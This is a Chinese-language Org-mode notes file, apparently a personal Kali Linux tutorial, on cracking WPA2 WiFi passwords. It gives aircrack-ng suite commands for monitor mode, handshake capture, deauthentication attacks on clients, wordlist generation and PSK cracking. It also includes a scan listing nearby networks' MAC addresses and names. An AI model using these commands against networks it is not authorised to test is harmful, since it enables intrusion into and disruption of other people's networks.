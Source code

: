#+TITLE:     KALI
#+AUTHOR:    Hao Ruan
#+EMAIL:     haoru@cisco.com
#+LANGUAGE:  en
#+LINK_HOME: http://www.github.com/ruanhao
#+OPTIONS:   h:6 html-postamble:nil html-preamble:t tex:t f:t ^:nil
#+STARTUP:   showall
#+TOC:       headlines 3
#+HTML_DOCTYPE: <!DOCTYPE html>
#+HTML_HEAD: <link href="http://fonts.googleapis.com/css?family=Roboto+Slab:400,700|Inconsolata:400,700" rel="stylesheet" type="text/css" />
#+HTML_HEAD: <link href="../org-html-themes/solarized/style.css" rel="stylesheet" type="text/css" />
 #+HTML: <div class="outline-2" id="meta">
| Author   | {{{author}}} ({{{email}}})    |
| Date     | {{{time(%Y-%m-%d %H:%M:%S)}}} |
#+HTML: </div>


* Cracking WiFi

** 无线网卡模式切换

无线网卡默认为 =Managed= 模式，需要切换到 =Monitor= 模式

*** 方式一 (airmon-ng)


#+BEGIN_SRC sh
  airmon-ng check kill
  airmon-ng                       # 列出接口
  airmon-ng start wlan0

  airmon-ng stop wlan0mon         # 切换回 Managed 模式
#+END_SRC

*** 方式二 (ifconfig)

#+BEGIN_SRC sh
  ifconfig wlan0 down
  ifconfig wlan0 mode monitor
  ifconfig wlan0 up
#+END_SRC





** 抓包

*** 查看所有信道信息

#+BEGIN_SRC sh
  airodump-ng wlan0mon
#+END_SRC

#+BEGIN_EXAMPLE
  BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
  28:2C:B2:0C:DE:98  -60      568      763    0   1  54e. WPA2 CCMP   PSK  ChinaNationalSpyAgency(Chonggu)
  A0:91:C8:B9:72:10  -64      570       19    0   5  54e  WPA2 CCMP   PSK  CMCC-d6PS
  B8:F8:83:EA:3F:41  -67      433       18    0   1  54e  WPA2 CCMP   PSK  didi
  C8:94:BB:3F:F6:A0  -74      331       41    0   6  54e  WPA2 CCMP   PSK  ljp
  BC:D1:77:D4:E0:04  -81      169      134    0   1  54e. WPA2 CCMP   PSK  TP-LINK_702
  1C:FA:68:0E:01:F6  -82      206      415    0  11  54e. WPA2 CCMP   PSK  huanghui
  A0:A3:3B:DB:5F:24  -83      201        0    0   7  54e  WPA2 CCMP   PSK  CU_Q69E
  04:EC:BB:67:82:77  -83      184        0    0  12  54e  WPA2 CCMP   PSK  CMCC-urjS
  5C:63:BF:A7:92:9E  -86      148       15    0   1  54e. WPA2 CCMP   PSK  DUSCHY
#+END_EXAMPLE


*** 查看指定信道信息

#+BEGIN_SRC sh
  airodump-ng --channel [channel] --bssid [bssid] [interface]
#+END_SRC


*** 保存数据包

#+BEGIN_SRC sh
  airodump-ng --channel [channel] --bssid [bssid] --write [file-name] [interface]
#+END_SRC


** DEAUTHENTICATION

*** 针对 AP 下的所有客户端

#+BEGIN_SRC sh
   aireplay-ng --deauth [number of packets] -a [AP] [INTERFACE]
#+END_SRC


*** 针对 AP 下的某个客户端

#+BEGIN_SRC sh
   aireplay-ng --deauth [number of deauth packets] -a [AP] -c [target] [interface]
#+END_SRC




** 字典文件获取

*** crunch

#+BEGIN_SRC sh
  crunch <min-length> <max-length> [characters] [-t <pattern>] -o <file>
#+END_SRC


*** 字典下载链接

- [[ftp://ftp.openwall.com/pub/wordlists/]]
- [[http://www.openwall.com/mirrors/]]
- [[http://gdataonline.com/downloads/GDict/]]
- [[http://www.outpost9.com/files/WordLists.html]]
- [[http://www.vulnerabilityassessment.co.uk/passwords.htm]]
- [[http://packetstormsecurity.org/Crackers/wordlists/]]
- [[http://www.ai.uga.edu/ftplib/natural-language/moby/]]
- [[http://www.cotse.com/tools/wordlists1.htm]]
- [[http://www.cotse.com/tools/wordlists2.htm]]
- [[http://wordlist.sourceforge.net/]]


** 计算

*** 原理

使用 =pbkdf2= 算法将字典中每一个密码与 AP 名字 (essid) 进行计算得到 =Pairwise Master Key= (PMK) ，
并将该 PMK 与握手文件中的值进行比较。

*** 直接计算

#+BEGIN_SRC sh
  aircrack <handshake-file> -w <wordlist>
#+END_SRC


*** 使用 airolib-ng 计算

**** 创建数据库并导入字典

#+BEGIN_SRC sh
  airolib-ng <db-name> --import passwd <wordlist>
#+END_SRC

**** 导入 ESSID

#+BEGIN_SRC sh
  airolib-ng <db-name> --import essid <essid-file>
#+END_SRC


**** 计算 PMK

#+BEGIN_SRC sh
  airolib-ng <db-name> --batch
#+END_SRC


**** 使用数据库中的数据进行破解

#+BEGIN_SRC sh
  aircrack-ng -r <db-name> <handshake-file>
#+END_SRC



* 常用链接

  - [[https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-hyperv-image-download/][Kali 虚拟镜像下载]]

  - [[https://www.virtualbox.org/wiki/Downloads][VirtualBox 扩展包下载]]
